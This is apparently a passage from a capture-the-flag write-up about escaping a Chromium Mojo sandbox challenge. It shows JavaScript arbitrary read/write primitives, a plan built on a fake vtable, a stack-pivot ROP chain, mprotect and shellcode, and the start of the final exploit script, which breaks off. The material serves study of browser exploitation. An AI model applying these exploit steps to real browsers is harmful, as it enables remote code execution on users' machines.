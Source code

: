
```javascript
// Now B[0] can control B[2]->numbers_'s data pointer by setting B[0].Write(xxx, 5)
async function aaw(address, value) {
    // arbitrary write
    await B[0].write(itof(address), 5);
    await B[2].write(itof(value), 0);
}

async function aar(address) {
    // arbitrary read
    await B[0].write(itof(address), 5);
    var v = (await B[2].read(0)).value;
    return ftoi(v);
}

```

However, it seems that we don't need those arbitrary read/write primitive after all. Since now we have the base address of `chromium` ( the vtable address ) and the heap buffer address ( `B[2]->numbers_` ), we ended up using the following exploit plan to achieve RCE:

* We placed all of our payload ( fake vtable entry, ROP chain and shellcode ) in the heap buffer of `B[2]->numbers_` ( the content of `B[2]->numbers_` is totally controllable, plus there's no size limit ).
* We then modify the vtable of `B[2]` to point to our crafted heap buffer.
* By calling `B[2].ptr.reset()`, it will trigger the destructor of `B[2]` and jump to our fake vtable entry, which points to our stack pivoting ROP gadget: `xchg rax, rsp; add cl, byte ptr [rax - 0x77]; ret;`.
* After stack pivoting, the stack will be migrated to our crafted heap buffer and start doing ROP. Our ROP chain will do `sys_mprotect( heap & ~0xfff, 0x2000, 7 )`, making our crafted heap buffer executable.
* Finally, the ROP chain will jump to our shellcode ( which is also placed on our crafted heap buffer ) and execute our kernel exploit.

Here's our final exploit script for the sandbox challenge ( in a form of a single Javascript file ):


```javascript=
arb = new ArrayBuffer(8);
f64 = new Float64Array(arb);
B64 = new BigInt64Array(arb);

function ftoi(f) {
    f64[0] = f;
    return B64[0];
}

function itof(i) {
    B64[0] = i;
    return f64[0];
}

function pwn_sbx() {
    print('In sbx!');
    (async function pwn() {
        A = [];
        B = [];
        let i = 0;
        
        // First allocate lots of CtfInterfaceImpl object
        for (i = 0 ; i < 0x1000 ; i++) {
            A.push(null);
            A[i] = new blink.mojom.CtfInterfacePtr();
            Mojo.bindInterface(blink.mojom.CtfInterface.name, mojo.makeRequest(A[i]).handle);
        }
```